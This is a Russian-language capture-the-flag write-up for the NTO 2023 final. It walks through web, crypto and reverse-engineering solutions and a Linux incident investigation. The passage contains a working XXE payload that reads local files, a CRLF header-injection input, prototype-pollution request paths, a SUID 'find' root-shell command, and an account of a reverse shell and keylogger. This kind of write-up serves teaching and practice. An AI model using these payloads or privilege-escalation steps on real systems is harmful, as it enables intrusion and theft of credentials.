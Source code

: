 # nto-final-2023-solves

## WEB 1

Пробуем различные атаки, используя форму рассчёта цены. Расшифровываем входящие и исходящие данные, используя клиентский js-скрипт, расположенный на сайте.
Замечаем, что в функцию encrypted можно передать xml помимо json. Значит, можно попытаться совершить xxe-атаку. Пробуем передать следущие данные (используя burpsuite), предварительно зашифровав их:

    <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]><data><countries>&xxe;</countries><startdate>&xxe;</startdate><enddate>&xxe;</enddate><resttype>&xxe;</resttype></data>

Получаем ответ от сервера, расшифровываем:

    {"format":"xml","data":"<?xml version=\"1.0\" encoding=\"UTF-8\"?>\n<!DOCTYPE foo [\n<!ENTITY xxe SYSTEM \"file:///flag.txt\">\n]>\n<data>\n  <countries>nto{w3bs0ck3ts_plu5_xx3_1s_l0v3}\n</countries>\n  <startdate>nto{w3bs0ck3ts_plu5_xx3_1s_l0v3}\n</startdate>\n  <enddate>nto{w3bs0ck3ts_plu5_xx3_1s_l0v3}\n</enddate>\n  <resttype>nto{w3bs0ck3ts_plu5_xx3_1s_l0v3}\n</resttype>\n  <price>NaN</price>\n</data>\n"}

Видим, что флаг:

    nto{w3bs0ck3ts_plu5_xx3_1s_l0v3}

## WEB 2

Исследуем скрипт приложений. Замечаем уязвимость в скрипте приложения, запущенного на порте 3002: куки небезопасно вставляются и передаются в приложение на порте 3001.
Переменную flag мы менять не можем, а вот переменную username вольно задаём при регистрации. Используя burpsuite, пробуем применять header injection в username.

Передаём следующий ник:

    test\r

На сервере возникает ошибка, и он выводит нам сообщение:

Bad Request Bare CR or LF found in header line "Cookie: username=test ;flag=NTO{request_smuggling_917a34072663f9c8beea3b45e8f129c5}" (generated by waitress)

Как видим, флаг:

    nto{request_smuggling_917a34072663f9c8beea3b45e8f129c5}

## WEB 3

Анализируем исходный код приложения. Видим, что можно применить prtotype pollution, напрямую через интерфейс сайта. Видим, что в коде самого приложения уязвимостей нету. Изучаем на github исходные ходы библиотек, использующихся в приложении.
В исходном коде библиотеки passport находим подходящее свойство для prototype pollution - userProperty.
Замечаем, что при присваивании свойству userProrerty значения isLocalRequest, при аутенфикации в isLocalRequest запишется информация о пользователе. Последовательно переходим по следующим каталогам сайта:

    /pollute/userProperty/isLocalRequest
    /auth?username=test
    /admin/flag

Получаем флаг:

    nto{pr0t0typ3_pollut10n_g4dged5_f56acc00f5eb803de88496b}

## CRYPTO 1

После нескольких запусков исходного кода замечаем, что вывод первый чисел не зависит от длины введенной строки. Немного редактируем файл, дописывая полный перебор в его конец:

    orig = [277, 92, 775, ... 926, 1281, 631]
    res = ''

    for i in range(len(orig)):
       for j in 'qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLXCVBNM{}_1234567890':
         dihedral = DihedralCrypto(1337)
         answer = dihedral.hash((res + j).encode('utf-8'))
         if answer[i] == orig[i]:
           res += j
           break
    print(res)

Запустив его и подождав пару минут, получаем флаг:

    nto{5tr4ng3_gr0up_5tr4ng3_l0g_and_depressed_kid_zxc_ghoul}

## CRYPTO 2

Замечаем, что если очередной бит флага равен 1, то результат, возращаемый с сервера, может быть абсолютно любым. Иначе, результат не может быть меньше чем n // 2. Исольхуем этот факт при написании следующего кода:

    from requests import get
    from Crypto.Util.number import long_to_bytes

    n = 7260248502...14489681551

    def f():
      cur_i, ans = 0, ''
      res = None
      while True:
        for _ in range(10):
          res = get(f'http://10.10.25.10:1177/guess_bit?bit={cur_i}').json()
          if 'error' in res:
            return ans
          if res['guess'] < n // 2:
            ans += '1'
            cur_i += 1
            break
        else:
          cur_i += 1
          ans += '0'

    print(long_to_bytes(int(f(), 2)).decode('utf-8'))

Запускаем, получаем флаг:

    nto{0h_n0_t1m1ng}

## REVERSE 2

Открыв данный исполняемый файл в IDA, сразу идем в функцию, где происходит проверка флага (поиск по подстроке nto). В этой функции видно, что данная строка разбивается на 7 int32 чисел и переводится в little-endian формат. 
Далее мы находим вызовы в инициализацию эмулятора unicorn, а также 224-байтный шеллкод на архитектуре MIPS x32. При дизассемблинге данного шелла, мы находим основную проверку на корректность флага. Алгоритм шифрования выглядит так:

    flag[0] &= 0x2c2c2c2c;
    compare(flag[0], const0);
    flag[0] ^= flag[1];
    compare(flag[0], const1);
    flag[0] ^= flag[2];
    compare(flag[0], const1);
    ....
    flag[0] &= flag[6];
    compare(flag[0], const6);

В данном случае можно легко восстановить операции xor, т.к. они однозначно обратимы. Получаем флаг (неизвестные части - знак вопроса)

    nto{Wh0_54id????s_1S_M3d????

В случае с and (4 и 7 части флага), можно догадаться что это слова This и Medium. Получаем флаг:

    nto{Wh0_54id_Th1s_1S_M3dium}
   
## PART 2 - VM 1(LINUX)

Злоумышленник попал на машину используя reverse-shell вшитый в файл игры minecraft.jar. Он подключался на 192.168.126.129:4444 и выполнял удаленные команды. После заражения, используя linPEAS, злоумышленник использовал неправильно настроенный find с suid битом. Используя команду 

    find . -exec /bin/sh -p ; -quit 
   
он поднял права до root. После заражения, злоумышленник загрузил кейлоггер logkeys. В истории команд можно найти путь до исполняемого файла кейлоггера: /home/sergey/Downloads/build/src/logkeys. Загрузив файл в любой дизассемблер, можно быстро найти как кейлоггер берет путь до файла лога. В кейлоггере используется простой XOR по ключу. Расшифровав путь, получаем /var/log/logkeys.log. Там и хранятся логи. Это также видно из истории команд bash_history. В файле /var/log/logkeys.log злоумышленник нашел логи нажатий клавиш, откуда нашел пароль от keepass2: 

      1_D0N7_N0W_WHY_N07_M4Y83_345Y

Запустив keepass2 и введя этот пароль, можно найти пароль от "windows rdp": 

      SecretP@ss0rdMayby_0rNot&
